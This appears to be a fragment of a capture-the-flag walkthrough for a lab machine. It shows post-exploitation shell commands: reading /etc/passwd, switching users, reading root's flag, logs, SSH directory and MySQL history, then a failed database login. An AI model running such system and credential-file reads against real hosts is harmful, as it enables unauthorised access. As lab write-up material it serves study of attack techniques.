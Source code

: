 ```bash
cat /etc/passwd
su atanas
gpasswd -d atanas lxd
su tomcat
groups
su atanas
cd /root
ls -la
cat flag.txt
cat app.log
sync
init 0
d
```

Looking in app.log:

```bash
cat root/app.log
10.0.3.133 - - [20/Jul/2017:22:48:01 -0400] "GET /archive.tar.gz HTTP/1.1" 404 503 "-" "Wget/1.16 (linux-gnu)"
10.0.3.133 - - [20/Jul/2017:22:50:01 -0400] "GET /archive.tar.gz HTTP/1.1" 404 503 "-" "Wget/1.16 (linux-gnu)"
10.0.3.133 - - [20/Jul/2017:22:52:01 -0400] "GET /archive.tar.gz HTTP/1.1" 404 503 "-" "Wget/1.16 (linux-gnu)"

```

```bash
ls root/.ssh

WARNING: terminal is not fully functional
-  (press RETURN)
 407079  (12) .    391808  (12) ..    407082  (4072) known_hosts  
```

```bash
cat root/.mysql_history

_HiStOrY_V2_
exit
show\040databases;
quit;
create\040database\040openmrs;
GRANT\040ALL\040ON\040openmrs.*\040TO\040'openmrs'@'localhost';
FLUSH\040PRIVILEGES;
exit
show\040databases;
exit
```

Let’s try mysql login, as we know there is a mysql db:

```bash
mysql -h localhost -u openmrs -p  #_HiStOrY_V2_

ERROR 1045 (28000): Access denied for user 'openmrs'@'localhost' (using password: YES)
```
